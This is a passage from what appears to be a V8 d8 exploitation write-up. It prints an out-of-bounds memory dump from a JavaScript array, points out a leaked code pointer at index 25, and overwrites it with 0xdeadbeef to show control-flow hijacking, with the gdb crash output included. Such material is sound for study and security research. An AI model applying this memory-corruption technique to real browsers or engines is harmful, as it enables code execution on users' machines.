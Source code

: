 And here was the result:
```
after 0: 0x3ff199999999999a
...
after 18: 0xc00000999
after 19: 0x1d1fb900280dad
after 20: 0x1d2165001d20a5
after 21: 0x6900000069
after 22: 0x600000999
after 23: 0x1d1fb900280dad
after 24: 0x859001d20a5
after 25: 0x5555566c8830
after 26: 0x4000005e5
after 27: 0x1d40bfbe1be82a
after 28: 0x4000005e5
after 29: 0x1d477b3bd65d3c
after 30: 0x4000005e5
after 31: 0x1d34bbe5445d68
after 32: 0x4000005e5
after 33: 0x1d360f9984896a
after 34: 0x4000005e5
after 35: 0x1d50437afb5294
after 36: 0x4000005e5
after 37: 0x1d515fb3f73494
after 38: 0x4000005e5
after 39: 0x1d4c176c4c35ac
after 40: 0x4000005e5
after 41: 0x1d45c727042db2
after 42: 0x4000005e5
after 43: 0x1d43e3d15d1ab6
after 44: 0x4000005e5
after 45: 0x1d4e8bbd48c1c4
after 46: 0x4000005e5
after 47: 0x1d41e34b5b94ce
after 48: 0x4000005e5
after 49: 0x1d4307b55068e6
```

# Control Flow Hijacking?

Wildly, there is actually a code pointer in that output at index 25 `0x5555566c8830` which points to `v8::PrintMessageCallback`.
We can actually just overwite this and get control flow hijacking when an error occurs in the repl:

```js
d8> arr[25] = itof(BigInt(0xdeadbeef));
d8> console.log(ftoi(arr[25]).toString(16))
d8> meow // this is undefined so the repl errors

Thread 1 "d8" received signal SIGSEGV, Segmentation fault.
0x00000000deadbeef in ?? ()
-------------------------------------------------------------------------------------------------- code:x86:64 ----
[!] Cannot access memory at address 0xdeadbeef
-------------------------------------------------------------------------------------------------------------------
gef>
```
